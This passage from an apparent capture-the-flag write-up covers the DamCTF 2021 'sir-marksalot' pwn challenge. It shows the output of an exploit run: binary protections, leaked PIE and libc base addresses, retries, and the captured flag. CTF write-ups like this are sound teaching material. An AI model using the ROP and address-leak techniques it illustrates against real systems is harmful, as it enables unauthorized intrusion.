 The rest is downhill assuming we do not run out of time.  Like before the ROP chain will be written out, the Grue found, and the chain executed.
  
Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/damctf2021/sir-marksalot/sir-marksalot'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to chals.damctf.xyz on port 31314: Done
[*] '/pwd/datajerk/damctf2021/sir-marksalot/libc6_2.27-3ubuntu1.4_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] pass 1
[*] rand 17,22
[CRITICAL] rand mismatch
[*] Closed connection to chals.damctf.xyz port 31314
[+] Opening connection to chals.damctf.xyz on port 31314: Done
[*] pass 1
[*] rand 38,24
[*] grue at 36,2
[*] time check: 3.4693713188171387s
[*] leak: 0x55cdfc1d1217
[*] binary.address: 0x55cdfc1d0000
[*] time check: 4.648568630218506s
[*] time check: 12.33139157295227s
[*] leak: 0x7fad54c72aa0
[*] libc.address: 0x7fad54bf2000
[*] pass 2
[*] x,y = 29,31
[*] rand 29,31
[*] grue at 2,31
[*] time check: 16.73600125312805s
[*] time check: 18.195335865020752s
[*] time check: 27.541880130767822s
dam{1n73N710N4LLy_93771n9_3473n_8y_4_9rU3-7H47_w42_9Ru3S0M3}
```

I know what you're thinking, I cherry picked that.  We'll I didn't, this was pure luck.

Number of retries per run:

```
run1:1
run2:39
run3:4
run4:17
run5:21
```
